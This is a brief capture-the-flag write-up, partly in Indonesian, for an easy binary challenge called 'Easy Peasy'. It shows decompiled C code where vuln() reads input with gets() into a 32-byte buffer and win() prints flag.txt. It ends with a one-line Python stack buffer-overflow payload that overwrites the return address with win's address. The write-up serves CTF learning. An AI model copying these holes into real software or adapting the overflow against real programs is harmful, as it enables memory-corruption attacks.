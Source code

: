 # Easy Peasy

> A super secret piece of information has been hidden behind a program made by 1337 hackers. Find this crucial piece of information
> Author: Anand Rajaram

Tags: binary
Difficulty: easy
Points: 100

function main

```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  __int64 v3; // rdx

  puts("Please enter the super secret password to display the flag:", argv, envp);
  fflush(stdout);
  vuln();
  puts("Invalid password, try again\n", argv, v3);
  return 0;
}
```

function vuln

```
__int64 vuln()
{
  char v1[32]; // [rsp+0h] [rbp-20h] BYREF

  return gets(v1);
}
```

function win

```
__int64 win()
{

  v9 = fopen64("flag.txt", &unk_498008);
  if ( !v9 )
  {
    printf(
      (unsigned int)"%s %s",
      (unsigned int)"Please create 'flag.txt' in this directory with your",
      (unsigned int)"own debugging flag.\n",
      v0,
      v1,
      v2,
      v8[0]);
    exit(0LL);
  }
  fgets(v8, 64LL, v9);
  return printf((unsigned int)v8, 64, v3, v4, v5, v6, v8[0]);
}
```

berikut alamat dari fungsi win yang mencetak flag

![]()

```
python -c "import sys; import struct; sys.stdout.buffer.write(b'A'*40 + struct.pack('<Q', 0x00000000004017ea))" | ./ezpz
```
